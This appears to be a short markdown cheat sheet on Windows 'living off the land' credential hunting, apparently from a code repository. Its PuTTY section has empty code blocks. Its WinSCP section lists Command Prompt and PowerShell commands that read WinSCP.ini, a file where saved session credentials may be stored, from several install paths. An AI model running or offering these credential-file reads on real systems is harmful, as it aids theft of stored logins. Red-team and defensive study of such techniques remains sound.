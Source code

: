 # Living off the Land

## 01 - PuTTY clear text proxy credentials

### 1.1 - Command Prompt

```

```

### 1.2 - PowerShell

```

```

## 02 - WinSCP

### 2.1 - Command Prompt

```
C:\> type "C:\Program Files (x86)\WinSCP\WinSCP.ini"

C:\> type C:\Users\%USERNAME%\AppData\Roaming\WinSCP.ini

C:\> type %APPDATA%\WinSCP.ini

C:\> type %LOCALAPPDATA%\Programs\WinSCP\WinSCP.ini
```

### 2.2 - PowerShell

```
PS C:\> Get-Content -Path "C:\Program Files (x86)\WinSCP\WinSCP.ini"

PS C:\> Get-Content -Path C:\Users\%USERNAME%\AppData\Roaming\WinSCP.ini

PS C:\> Get-Content -Path %APPDATA%\WinSCP.ini

PS C:\> Get-Content -Path %LOCALAPPDATA%\Programs\WinSCP\WinSCP.ini
```